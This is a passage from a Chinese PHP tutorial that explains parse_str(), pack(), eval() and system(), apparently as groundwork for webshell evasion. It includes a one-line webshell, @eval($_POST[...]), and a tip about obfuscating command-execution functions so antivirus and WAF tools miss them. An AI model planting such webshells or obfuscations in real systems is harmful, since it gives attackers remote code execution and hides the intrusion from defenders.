 ```bash
parse_str("name=Peter&age=43");
echo $name."<br>";      //Peter
echo $age;              //43

parse_str("name=Peter&age=43",$myArray);
print_r($myArray);       //Array ( [name] => Peter [age] => 43 )
```

### 2.4 pack()

**`pack()` 函数函数把数据装入一个二进制字符串**

Demo：简单来说，就是将指定编码的数字转成字符串

```bash
echo pack("C3",80,72,80);   //ASCII 编码转换为 PHP
echo pack("H*","4161627973735465616d");    //16 进制编码转换为 AabyssTeam
```

其他参数请参考菜鸟教程： [https://www.runoob.com/php/func-misc-pack.html](https://www.runoob.com/php/func-misc-pack.html)

## 3# 命令执行类函数

### 3.0 Tips

命令执行类函数在”某些情况“下是非常危险的，所以往往遭到杀毒软件和 WAF 的重点关注，所以在做免杀的时候，为了绕过污点检测往往都要将命令执行类函数进行拼接、重组、加密、混淆来规避查杀。

### 3.1 eval()

**`eval()` 函数把字符串按照 PHP 代码来计算，即执行 PHP 代码**

Demo：将其中的内容按照 PHP 代码执行

```bash
echo 'echo "我想学 php"';     //echo "我想学 php"
eval('echo "我想学 php";');   //"我想学 php"
```

Demo：一句话木马将参数传到 `eval()` 函数内执行

```bash
@eval($_POST['AabyssTeam']);
```

### 3.2 system()

**`system()` 函数的主要功能是在系统权限允许的情况下，执行系统命令（Windows 系统和 Linux 系统均可执行）**

Demo：执行 Whoami 并回显

```bash
system('whoami');
```

### 3.3 exec()
